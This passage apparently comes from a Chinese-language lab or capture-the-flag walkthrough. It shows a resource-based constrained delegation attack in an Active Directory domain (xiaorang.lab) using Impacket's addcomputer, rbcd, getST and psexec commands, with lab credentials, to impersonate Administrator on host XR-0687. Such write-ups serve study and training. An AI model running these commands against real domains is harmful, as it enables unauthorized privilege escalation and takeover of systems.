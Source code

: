 发现此用户对`XR-0687`主机有`GenericWrite`权限，可尝试 RBCD 获取管理员权限

### RBCD 攻击

```bash
proxychains python3 addcomputer.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'qwq' -computer-pass 'Qq123456.'

proxychains python3 rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'qwq$'

proxychains python3 getST.py xiaorang.lab/'qwq':'Qq123456.' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[![](assets/1707954847-49587b97df34f6fcf27b5c4ce9d61c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165443-de105e64-c728-1.png)

而后导入票据并使用 psexecc 无密码登录即可进入

```bash
proxychains psexec.py administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

[![](assets/1707954847-0e8a3896afffefd2010bc8b2ccbf2d03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165509-edc66c18-c728-1.png)
